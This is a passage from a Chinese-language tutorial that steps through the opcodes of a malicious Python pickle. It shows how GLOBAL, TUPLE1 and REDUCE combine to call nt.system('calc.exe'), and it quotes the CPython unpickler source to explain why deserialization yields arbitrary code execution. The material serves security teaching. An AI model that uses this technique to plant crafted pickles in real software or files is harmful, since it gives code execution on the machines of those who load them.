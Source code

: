 global 指令查找指定的模块，注意`find_class`并不**只**找类，函数也能被找出来。这一条指令执行后，栈顶保存的就是 `nt.system` 了。

#### BINUNICODE

```plaintext
   13: q    BINPUT     0
   15: X    BINUNICODE 'calc.exe'
```

在`BINPUT`把`nt.system`所在的栈记到 `memo[0]` 后，是一个 `BINUNICODE`。

和`BININT`差不多，压栈一个unicode字符串。

#### TUPLE1

```plaintext
   28: q    BINPUT     1
   30: \x85 TUPLE1
```

再次更换栈，`TUPLE1`从栈顶构造一个元组。

```python
    def load_tuple1(self):
        self.stack[-1] = (self.stack[-1],)
    dispatch[TUPLE1[0]] = load_tuple1
```

这一步将刚压栈的`calc.exe`构造成了`('calc.exe',)`。

#### REDUCE

```plaintext
   31: q    BINPUT     2
   33: R    REDUCE
```

将刚构造好的元组记录到`memo[2]`后，开始 `REDUCE` 指令。正是这一步触发了任意代码执行。

```python
REDUCE         = b'R'   # apply callable to argtuple, both on stack

    def load_reduce(self):
        stack = self.stack
        args = stack.pop()
        func = stack[-1]
        stack[-1] = func(*args)
    dispatch[REDUCE[0]] = load_reduce
```

这段代码中`args`是我们刚构造好的`('calc.exe',)`，`func`是`nt.system`，这个函数的调用结果成为最后留在栈里的对象。

而我们的恶意代码（弹计算器）也执行了。

## 总结